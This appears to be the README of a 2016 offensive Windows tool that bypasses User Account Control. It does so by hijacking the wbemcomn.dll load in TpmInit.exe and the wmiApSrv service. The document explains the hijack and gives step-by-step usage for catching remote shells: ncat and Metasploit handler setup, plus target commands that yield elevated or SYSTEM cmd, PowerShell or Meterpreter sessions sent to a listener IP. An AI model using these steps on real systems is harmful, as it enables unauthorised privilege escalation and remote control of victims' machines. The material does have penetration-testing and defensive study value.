 ```
   ______                ____      _ __
  /_  __/___  ____ ___  /  _/___  (_) /_
   / / / __ \/ __ `__ \ / // __ \/ / __/
  / / / /_/ / / / / / // // / / / / /_
 /_/ / .___/_/ /_/ /_/___/_/ /_/_/\__/
    /_/
                    UAC Suicide Squad
                      By Cn33liz 2016
```

A tool to Bypass User Account Control (UAC), to get a High Integrity (or SYSTEM) Reversed Command shell, 
a reversed PowerShell session, or a Reversed Meterpreter session.
When TpmInit.exe starts, it first tries to load the wbemcomn.dll within C:\Windows\System32\wbem.
This DLL cannot be found in that folder, so it tries to load the DLL again, but then in C:\Windows\System32.
This tool exploits this DLL loading vulnerability within TpmInit.exe, which runs auto-elevated by default.
Same issue also applies to the WMI Performance Adapter service (wmiApSrv) which runs with SYSTEM privileges.
So while we can use TpmInit.exe to get Elevated priviliges, we can also use it to start the wmiApSrv service,
and get a SYSTEM shell using our custom DLL :)

Works on:

```
This version has been succesfully tested on Windows 8.1 x64 and Windows 10 x64 (Version 1511).
```

Compile:

```
This project is written in C/C++ using Windows API calls, so you need Visual Studio to compile.
Source code of the needed dll's are included within the project, but not needed to run the tool.
They are embeded within the main executable (as Base64 encoded and compressed binaries).
```

### How to use it:

```
* [>] Usage: First setup a remote Netcat, Ncat or Meterpreter(x64) listener
* [>] Example: KickAss@PenTestBox:~$ sudo ncat -lvp 443

* [>] Or for msf: KickAss@PenTestBox:~$ sudo msfconsole
* [>] msf > use exploit/multi/handler
* [>] msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
* [>] msf exploit(handler) > set LHOST 10.0.0.1
* [>] msf exploit(handler) > set LPORT 443
* [>] msf exploit(handler) > exploit -j

* [>] Then on your target: TpmInitUACBypass.exe <Remote Listener IP> <Port> <powershell, cmd or msf> <system>

* [>] Example1: Remote Elevated Cmd Shell:   TpmInitUACBypass.exe 10.0.0.1 443 cmd
* [>] Example2: Remote SYSTEM Cmd Shell:     TpmInitUACBypass.exe 10.0.0.1 443 cmd system
* [>] Example3: Remote Elevated PowerShell:  TpmInitUACBypass.exe 10.0.0.1 443 powershell
* [>] Example4: Remote SYSTEM PowerShell:    TpmInitUACBypass.exe 10.0.0.1 443 powershell system
* [>] Example5: Remote Elevated Meterpreter: TpmInitUACBypass.exe 10.0.0.1 443 msf
* [>] Example6: Remote SYSTEM Meterpreter:   TpmInitUACBypass.exe 10.0.0.1 443 msf system
```

### Strong Advice

* Do not use accounts with Administrative privileges for daily computer usage!
